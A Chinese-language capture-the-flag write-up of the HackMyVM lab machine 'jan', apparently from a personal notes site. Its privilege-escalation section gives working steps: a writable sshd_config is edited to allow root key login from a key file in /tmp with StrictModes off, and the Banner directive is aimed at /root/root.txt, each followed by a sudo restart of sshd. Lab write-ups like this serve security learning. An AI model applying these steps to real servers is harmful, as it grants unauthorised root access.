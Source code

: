 ```yaml
---
{"dg-publish":true,"dg-path":"安全/靶机/hackmyvm_jan.md","permalink":"/安全/靶机/hackmyvm_jan/","title":"hackmyvm_jan"}
---
```


# 主机发现
![Pasted image 20250131110451.png](/img/user/picture/Pasted%20image%2020250131110451.png)
只开了两个端口，22，8080




# web渗透

![Pasted image 20250131112116.png](/img/user/picture/Pasted%20image%2020250131112116.png)
首先提示我们了两个网页

![Pasted image 20250131112141.png](/img/user/picture/Pasted%20image%2020250131112141.png)
![Pasted image 20250131112149.png](/img/user/picture/Pasted%20image%2020250131112149.png)


本来以为是SSRF，弄了半天也没弄出来

下面是看大佬提示发现的：
![Pasted image 20250131123623.png](/img/user/picture/Pasted%20image%2020250131123623.png)

![Pasted image 20250131124950.png](/img/user/picture/Pasted%20image%2020250131124950.png)




# 提权

![Pasted image 20250131131239.png](/img/user/picture/Pasted%20image%2020250131131239.png)
发现有`/sbin/service sshd restart`权限，也就是重启ssh
很明显的提示，应该是在ssh服务上做文章

![Pasted image 20250131133242.png](/img/user/picture/Pasted%20image%2020250131133242.png)
查看ssh配置文件权限
![Pasted image 20250131131355.png](/img/user/picture/Pasted%20image%2020250131131355.png)
发现具有可写权限，更印证了思路

因为我们没有root的密码，我们可以尝试修改配置文件可以支持让我们用公钥连接root

生成一对密钥：
```shell
ssh-keygen -t ed25519 -f ~/.ssh/evil_key
```

**在目标机上创建并填充文件**（例如 `/tmp/mykeys`），将你的公钥写进去。
```shell
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAI...YourKey... user@attackhost" > /tmp/mykeys
chmod 600 /tmp/mykeys
```
现在 `/tmp/mykeys` 这个文件就包含了你的公钥。


修改配置文件：
```txt
# 注意：如果默认 PermitRootLogin 是 no，需要改成 yes 或 prohibit-password (允许公钥登录)。
PermitRootLogin yes

# 确保服务器允许公钥认证
PubkeyAuthentication yes

# 指向你刚才创建的文件
AuthorizedKeysFile /tmp/mykeys

StrictModes no
```

注意，我们是把公钥放在了`/tmp`中，这与 SSH 的严格模式冲突，会导致导致 sshd 不信任其中的公钥。
 即使 `sshd_config` 文件里 `#StrictModes yes` 是注释掉的，OpenSSH 默认仍会把它视为 `yes`。
 只有显式设置 `StrictModes no`，才会允许加载不安全路径下的 authorized_keys 文件


重启服务
```shell
sudo /sbin/service sshd restart
```

现在就可以直接登录上去了
![Pasted image 20250131131945.png](/img/user/picture/Pasted%20image%2020250131131945.png)


# 提权-补


还有一种方法，可以让我们获取flag但是没法获取root全部权限

首先要知道：
**SSH Banner 机制**：在 `sshd_config` 中可以指定一个 `Banner` 文件路径。客户端连接时，SSH 守护进程会以 root 权限读取该文件并把内容展示给客户端。

修改其中的：
![cc7cb2c250e49c631bab9e3289cc858.png](/img/user/picture/cc7cb2c250e49c631bab9e3289cc858.png)
```txt
Banner /root/root.txt
```


重载：
```shell
sudo /sbin/service sshd restart
```


之后再ssh连接即可
（不需要连上去）
![Pasted image 20250131160350.png](/img/user/picture/Pasted%20image%2020250131160350.png)

